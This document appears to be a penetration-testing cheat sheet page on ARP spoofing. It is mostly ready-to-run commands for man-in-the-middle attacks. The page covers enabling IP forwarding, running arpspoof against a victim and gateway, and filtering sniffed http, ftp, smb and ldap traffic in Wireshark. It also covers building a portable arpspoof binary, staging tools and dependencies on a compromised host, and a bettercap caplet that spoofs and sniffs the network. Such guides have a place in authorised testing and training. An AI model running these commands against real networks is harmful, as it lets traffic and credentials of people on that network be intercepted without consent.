 ```yaml
---
description: Address Resolution Protocol
---
```


# ARP Spoofing

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```




## arpspoof (dsniff)

* [https://github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)
* [https://github.com/GregHoff/dsniff](https://github.com/GregHoff/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof [-i eth0] [-c both] -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1 [-r]
```

![](/.gitbook/assets/009.png)

{% hint style="hint" %}
Wireshark filter while ARP spoofing:

```
(http || ftp || smb || smb2 || ldap) && ip.src == VICTIM_10.0.0.5
```
{% endhint %}



### Portable

* [https://github.com/byt3bl33d3r/arpspoof](https://github.com/byt3bl33d3r/arpspoof)
* [https://github.com/malfunkt/arpfox](https://github.com/malfunkt/arpfox)

As a portable alternative one may use the Python port of arpspoof compiled with PyInstaller:

```
$ sudo apt install virtualenv
$ pip install pyinstaller=3.5
$ git clone https://github.com/byt3bl33d3r/arpspoof
$ cd arpspoof
$ virtualenv -p `which python2` venv
$ . venv/bin/activate
$ pip install -r requirements.txt
$ pyinstaller --onefile --paths venv/lib/python2.7/site-packages arpspoof/arpspoof.py
$ file dist/arpspoof
```

Another approach is to download Python dependencies locally and install them on a compromised Linux host:

```
Dev$ pip download --no-binary=:all: -r requirements.txt
Compromised$ python -m pip install --no-index --find-links . -r requirements.txt
```

If you need to launch ARP spoofing on another distro (CentOS, for example), then installing OS dependencies and using a portable binary may be easier:

```
Dev$ mkdir /tmp/tcpdump && yum install --downloadonly --downloaddir=/tmp/tcpdump tcpdump
Dev$ ls /tmp/tcpdump
libpcap-1.5.3-12.el7.x86_64.rpm  tcpdump-4.9.2-4.el7_7.1.x86_64.rpm

Compromised$ rpm -i libpcap*.rpm tcpdump*.rpm
Compromised$ tcpdump -nvv -i eth0 -s 65535 -w arpfox.pcap "src host VICTIM_10.0.0.5"
Compromised$ ./arpfox -l
Compromised$ ./arpfox -i eth0 -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```




## bettercap

* [https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [https://www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)

Attack:

```
$ sudo ./bettercap --iface eth0 --caplet arpspoof.cap
```

{% code title="arpspoof.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
arp.spoof on
net.sniff on
```
{% endcode %}
